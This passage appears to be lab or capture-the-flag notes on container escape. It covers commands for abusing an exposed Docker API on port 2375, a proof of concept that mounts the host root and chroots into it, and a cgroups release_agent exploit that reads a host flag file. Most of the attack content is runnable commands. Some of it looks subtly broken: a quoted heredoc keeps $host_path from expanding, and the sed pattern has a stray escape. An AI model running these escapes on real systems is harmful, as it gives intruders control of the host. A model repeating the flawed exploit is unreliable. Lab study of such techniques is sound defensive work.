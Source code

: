 Useful remote operations (attacker perspective):
- `docker -H tcp://HOST:2375 ps` — list containers.
- `docker -H tcp://HOST:2375 images` — list images.
- `docker -H tcp://HOST:2375 run -v /:/mnt --rm -it alpine chroot /mnt sh` — mount host root and chroot.
- `docker -H tcp://HOST:2375 exec -it <container> /bin/sh` — execute inside a container.

**Risk**: An attacker can create/stop/remove containers, mount host paths, or extract data.

---

## 4) PoC: Mount host filesystem via Docker (docker.sock or remote daemon)
**Idea**: Start a container mounting host `/` into the container, then `chroot` into it to operate on host filesystem.

PoC command:
```bash
docker -H tcp://10.10.69.101:2375 run -v /:/mnt --rm -it alpine sh -c "chroot /mnt sh"
```

Explanation:
- `-v /:/mnt` mounts host root at `/mnt` in the new container.
- `chroot /mnt sh` changes root to the host filesystem and spawns a shell.

Notes:
- If the image is not present on the remote host, Docker may pull it (this can produce network activity and detection).
- Very minimal images may lack `chroot` or a full shell.

---

## 5) PoC: cgroups `release_agent` exploit (summary)
**What it abuses**: container capabilities and the kernel cgroup `release_agent` mechanism to execute a script when the cgroup is released.

High-level steps (run only in lab environments):
```bash
# 1. Prepare cgroup mount and directory
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# 2. Tell kernel to run release_agent when cgroup is freed
echo 1 > /tmp/cgrp/x/notify_on_release

# 3. Find host path where container root is stored
host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)

# 4. Point release_agent to an exploit script (path on container mapped to host)
echo "$host_path/exploit" > /tmp/cgrp/release_agent

# 5. Create the exploit script
cat > /exploit <<'EOF'
#!/bin/sh
cat /root/host_flag.txt > "$host_path/flag.txt"
EOF
chmod +x /exploit

# 6. Place a process in the cgroup to trigger execution when cgroup is released
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

